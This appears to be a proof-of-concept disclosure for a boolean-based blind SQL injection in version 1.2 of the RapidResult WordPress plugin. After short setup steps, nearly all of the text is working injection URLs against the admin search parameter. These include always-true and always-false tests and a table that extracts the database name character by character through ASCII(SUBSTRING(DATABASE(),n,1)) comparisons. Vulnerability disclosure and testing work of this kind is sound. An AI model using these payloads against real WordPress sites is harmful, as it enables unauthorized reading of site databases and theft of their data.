 # RapidResult Blind SQL Injection (Boolean-Based) POC

## Setup

1. **Download and Install** the latest version of WordPress.  
2. **Install and Activate** RapidResult plugin (latest version: 1.2):  
   [https://downloads.wordpress.org/plugin/rapidresult.1.2.zip](https://downloads.wordpress.org/plugin/rapidresult.1.2.zip)  
3. Browse to:  
   [http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult](http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult)  

## Demonstration Steps

1. Click **Add New Result** and fill in the information. Name the post `pwned`.  

2. **Inject an always false condition** – this will display **no results**:  
http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR 1=2 OR '1'='1


3. **Inject an always true condition** – this will display **all results**:  
http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR 1=1 OR '1'='1

## Extract Database Name `exampledb` using Blind SQL Injection

- **True conditions** display all results  
- **False conditions** display no results  

| Character | URL |
|-----------|-----|
| e | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),1,1))=101 OR '1'='1` |
| x | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),2,1))=120 OR '1'='1` |
| a | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),3,1))=97 OR '1'='1` |
| m | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),4,1))=109 OR '1'='1` |
| p | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),5,1))=112 OR '1'='1` |
| l | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),6,1))=108 OR '1'='1` |
| e | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),7,1))=101 OR '1'='1` |
| d | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),8,1))=100 OR '1'='1` |
| b | `http://127.0.0.1/wp-admin/edit.php?post_type=rapidresult&s=test%' OR ASCII(SUBSTRING(DATABASE(),9,1))=98 OR '1'='1` |
